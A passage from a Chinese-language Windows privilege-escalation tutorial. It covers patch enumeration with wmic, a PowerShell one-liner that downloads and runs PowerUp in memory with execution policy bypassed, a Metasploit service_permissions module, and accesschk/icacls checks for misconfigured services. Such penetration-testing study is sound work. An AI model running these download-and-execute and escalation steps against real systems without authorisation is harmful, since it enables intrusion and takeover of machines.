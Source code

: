 ```plain
wmic qfe get Description,HotFixID,InstalledOn
如果要定位到特定的补丁可以使用如下命令
wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094"
查看当前安装程序
wmic product get name,version
```

### 错误配置提权

```plain
#powerup 提供了一些本地提权的方法，可以通过很多实用的脚本来寻找目标机器的 windows 服务漏洞
https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
可直接通过 powershell 远程加载
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"


#msf 对应的模块为 exploit/windows/local/service_permissions  但前提是获得一个会话
run exploit/windows/local/service_permissions #自动化提权，回来的的权限就是 system


#当工具无法使用时，也可以手工查找，使用 Windows 内建工具 icacls 查看服务启动路径中写权限
例如：icacls "C:\Program Files"
icacls "C:\Program Files\Common Files"

#查看指定目录的权限配置情况
accesschk.exe -dqv "D:\test" -accepteula
参数说明：“M”表示修改，“F”代表完全控制，“CI”代表从属容器将继承访问控制项，“OI”代表从属文件将继承访问控制项。

#检查服务 如果是.SERVICE_ALL_ACCESS 的意思是我们对“Vulnerable Service”的属性拥有完全控制权
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
sc qc 服务名   #查看可以完全控制的服务的属性。
```

`辅助提权站点`

-   [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
-   [https://wiki.0-sec.org/#/index](https://wiki.0-sec.org/#/index)
-   [https://github.com/neargle/win-powerup-exp-index](https://github.com/neargle/win-powerup-exp-index)
-   [http://blog.neargle.com/win-powerup-exp-index/](http://blog.neargle.com/win-powerup-exp-index/)
-   [https://detect.secwx.com](https://detect.secwx.com/)

这里进行细分，我们了解一下什么是`系统服务权限配置错误`  
原理：在 Windows 系统服务文件在操作系统启动时加载并执行，并调用可执行文件。这时当一个`低权限用户存在可执行文件读写权限，就可以将该文件进行替换，从而随着系统服务启动获取系统权限。一般情况下，Windows是以System权限执行`

### accesschk 工具

下载链接：[https://download.sysinternals.com/files/SysinternalsSuite.zip](https://download.sysinternals.com/files/SysinternalsSuite.zip)  
命令如下
